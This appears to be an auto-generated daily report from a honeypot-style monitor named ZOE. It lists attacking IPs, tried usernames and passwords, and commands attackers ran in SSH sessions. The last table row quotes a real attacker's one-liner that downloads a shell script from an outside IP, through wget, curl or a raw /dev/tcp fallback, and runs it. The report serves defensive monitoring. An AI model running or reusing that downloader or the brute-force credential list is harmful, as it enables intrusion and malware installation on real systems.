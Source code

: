 # ZOE - The daily report for the malicious behavior

> daily report for the malicious user behavior

This is the daily report for the malicious user behavior. It is generated by the ZOE system.

## SSH

The following table shows the top 10 malicious SSH users that have been detected by the ZOE
system. The table is sorted by the number of attempts.

### Top 10 malicious users

| Client IP | Count    |
|-----------|----------|
| 109.123.254.15 | 6823 |
| 8.209.253.56 | 4156 |
| 8.216.122.147 | 4097 |
| 149.129.249.160 | 1741 |
| 167.99.186.137 | 1295 |
| 8.217.180.105 | 878 |
| 159.203.2.86 | 791 |
| 146.190.21.251 | 773 |
| 206.189.120.23 | 701 |
| 167.71.143.241 | 685 |

### Top 10 malicious try to login as

| Usernames | Count    |
|-----------|----------|
| root | 2590 |
| oracle | 83 |
| admin | 70 |
| deploy | 69 |
| postgres | 65 |
| user | 60 |
| deployer | 55 |
| mysql | 53 |
| hadoop | 52 |
| git | 50 |

### Top 10 malicious try to authenticate with

| Password | Count    |
|-----------|----------|
| 123456 | 508 |
| 111111 | 126 |
| 123 | 90 |
| password | 83 |
| 12345678 | 78 |
| danniel12 | 77 |
| daniel12 | 77 |
| 1234 | 62 |
| 12345 | 47 |
| 1 | 34 |

### Top malicious commands try to execute

| Client | Command |
|--------|---------|
| 182.92.151.31 | uname -s -m |
| 182.92.210.172 | uname -s -m |
| 94.103.125.37 | uname -a; echo -e "\x61\x75\x74\x68\x5F\x6F\x6B\x0A"; SC=$(wget -O- http://94.156.177.109/sh \|\| curl http://94.156.177.109/sh); if [ $? -ne 0 ]; then exec 3<>"/dev/tcp/94.156.177.109/80"; echo -e "GET /sh HTTP/1.0\r\nHost: 94.156.177.109\r\n\r\n" >&3; (while read -r line; do [ "$line" = $'\r' ] && break; done && cat) <&3 \| sh -s ssh; exec 3>&-; else echo "$SC" \| sh -s ssh; fi |
